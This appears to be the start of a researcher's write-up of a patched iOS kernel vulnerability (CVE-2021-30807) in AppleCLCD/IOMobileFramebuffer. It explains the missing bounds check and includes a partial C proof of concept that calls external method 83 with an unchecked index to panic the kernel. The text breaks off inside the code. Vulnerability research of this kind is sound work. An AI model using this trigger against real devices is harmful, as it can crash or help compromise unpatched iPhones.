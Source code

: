# WebContent->EL1 LPE: OOBR in AppleCLCD / IOMobileFrameBuffer

While reversing some of the accessible IOServices from the app sandbox, I went into a very straightforward vulnerability in *AppleCLCD* / *IOMobileFrameBuffer* (the respected userclients share the same external methods table). I kept this bug and intended to find some extra time to work on it in August. But then, iOS [14.7.1](https://support.apple.com/en-us/HT212623) came along, and I was surprised to see it was fixed as "in-the-wild" as CVE-2021-30807. Just to be clear, I intended to submit this bug to Apple right after I'll finish the exploit. I wanted to get a high-quality submission, but I did not have the time to invest in tfp0 in March. I wanted to share the knowledge and the details involved here, hoping it would help more folks in our community with their research. While building the POC is an immediate step that worked at the first shot (the vulnerability is as trivial and straightforward as it can get), the exploitation process is quite interesting here.

First of all, let me drop here a hash I [tweeted](https://twitter.com/AmarSaar/status/1376330319582920711) a few months ago, with the content:

```bash
saaramar@Saars-Air clcd_controlled_idx % cat description_and_poc.txt | shasum -a 512
d36248d389e069acf611f8f69f93c0ec8b96da1ac9c84e3323355db7e4892fc26394bcef3cf1ef17a1a591f3a0443141534960e011da6371f03c70c7967b484b  -
saaramar@Saars-Air clcd_controlled_idx % cat description_and_poc.txt                
Very straightforward vulnerability: the last external method (selector 83) of AppleCLCD/IOMobileFramebuffer (they share the same sMethods table) lacks any bound checks on the index given as the input[0], the first scalar to the method. The following POC triggers a panic:

void trigger_clcd_vuln(void) {
  kern_return_t ret;
  io_connect_t shared_user_client_conn = MACH_PORT_NULL;
  int type = 2;
  io_service_t service = IOServiceGetMatchingService(kIOMasterPortDefault,
                            IOServiceMatching("IOMobileFramebuffer"));
   
  if(service == MACH_PORT_NULL) {
    printf("failed to open service\n");
    return;
  }
   
  printf("service: 0x%x\n", service);

  ret = IOServiceOpen(service, mach_task_self(), type, &shared_user_client_conn);
  if(ret != KERN_SUCCESS) {
    printf("failed to open userclient: %s\n", mach_error_string(ret));
    return;
  }
   
  printf("client: 0x%x\n", shared_user_client_conn);
   
  printf("call externalMethod\n");
  uint64_t scalars[4] = { 0x0 };
  scalars[0] = 0x41414141;

  uint64_t output_scalars[4] = { 0 };
  uint32_t output_scalars_size = 1;

  printf("call s_default_fb_surface\n");
  ret = IOConnectCallMethod(shared_user_client_conn, 83,
           scalars, 1,
    	      NULL, 0, //input, input_size,
    		  output_scalars, &output_scalars_size,
        	  NULL, NULL); //output, &output_size);

  if(ret != KERN_SUCCESS) {
```